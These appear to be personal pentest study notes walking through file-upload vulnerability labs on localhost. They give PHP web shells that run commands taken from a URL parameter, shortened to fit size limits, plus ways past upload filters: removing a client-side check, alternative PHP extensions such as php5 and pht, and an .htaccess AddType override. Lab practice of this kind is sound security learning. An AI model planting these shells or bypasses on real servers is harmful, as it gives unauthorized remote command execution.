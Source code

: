 
Imagine that you have a webpage, and this page have a section of uploads file, like an image of the profile.

You can upload a malicious file like a reverse shell in php if the server have apache and interpret php

---

# Upload 1

You can upload a [Web shell](../../Shells/Web%20shell/Web%20shell.md) write in php

````php
<?php
    system($_GET['cmd']);
?>
````

When you open the url where is the image you can use the parameter cmd to inject commands

> http://localhost:9001/uploads/cmd.php?cmd=id


---

# Upload 3

Only admit files with extensions: .jpg, .jpeg, .bmp, gif, png

When we see some type of validiation we have to check if it is client side or server side (or both)

If we check the source code, we can see an script named **validate.js**

![](../../Images/Pasted%20image%2020230821172705.png)

We can see that in a few lines up that there are an onsubmit attribute 

![](../../Images/Pasted%20image%2020230821172838.png)

If we do ctr+shift+c and click in the buttom of uploads, three lines up we can delete the attribute

![](../../Images/Pasted%20image%2020230821173229.png)

If we delete the attribute we are omitting the script that check if the file have a correct extension

Remember, when you reload the website you have to delete again the submit attribute

And there we go

![](../../Images/Pasted%20image%2020230821173434.png)

🥳🥳 The file was upload successfully

---

# Upload 10

When we try to upload the cmd.php, we can see that the validation is in the server, (**tip --> Apply a redirect when upload the file**)

A server can interpretate different files php with different extensions, you can search in google

> php alternative extensions

You have [hacktricks webpage](https://book.hacktricks.xyz/pentesting-web/file-upload) that contemplates different extensions...

If you open Burpsuite and process the request, you can change the extension of the file

![](../../Images/Pasted%20image%2020230822123151.png)
![](../../Images/Pasted%20image%2020230822123201.png)

**Important!!**
He accept the file, but not always that accept the file the code can be interpreted

In this case we can see the code in source code, but this is not interpreted

If the extension don't work you can try other extension (php4, php5)

In this case works with **php5**

![](../../Images/Pasted%20image%2020230822123818.png)

---

# Upload 11

In this lab we try php1,2,3,4,5 but nothing of this works, php6 and php7 are sucessefully upload but the code is not interpreted, we have the **pht** extension an this works

![](../../Images/Pasted%20image%2020230822154943.png)

---

# Upload 12

In this case we can try a lof of extension, but doesn't work

In this case we are going to create a extension that will be interpreted by php

For more information you can search

> .htaccess file upload bypass

To do this you can do the following steps:

1. In filename you can put [.htaccess](https://es.wikipedia.org/wiki/.htaccess)
2. In Content-Type you can put text: **text/plain**
3. Delete the content and put this phrase

> AddType application/x-httpd-php .test


With this phrase (that are going to be in .htaccess file) are you saying that all files that have .test can interprete php code

![](../../Images/Pasted%20image%2020230822160350.png)

If we can upload this file, all file that have extension .test are going to be interpreted by php

![](../../Images/Pasted%20image%2020230822160515.png)
![](../../Images/Pasted%20image%2020230822160528.png)

The solution of this is that a user can't upload a .htacess file

---

# Upload 16

Now the restriction is by the size of the file

In this case, we can see the max size in the **request**

![](../../Images/Pasted%20image%2020230822162110.png)

You can change the size of the file 

or

You can reduce the code of php (monkey pentester offers a reverse shell in one line for this occasions)

In this case if you change a little the code, you can upload the file

````php
<?php system($_GET['c']);?>
````

You can use a 0 

````php
<?php system($_GET[0]);?>
````

In the url be like:

> http://localhost:9001/upload16/uploads/cmd.php?0=id

---

# Upload 17

In this case the size is less, when you try the web shell with

````php
<?php system($_GET[0]); ?>
````

Doesn't work, you can try with other utilities that exec, but doesn't work

````php
<?php shell_exec($_GET[0]); ?>
````

But you can limit this so much like this

````php
<?=`$_GET[0]`?>
````

To use this is equal than the other ocassions

> http://localhost:9001/upload17/uploads/setenso.php?0=id

---

# Upload 21



---

# Labs

- https://github.com/moeinfatehi/file_upload_vulnerability_scenarios


---

# Tags

#vulnerabilty #uploadfiles #webshell #php 
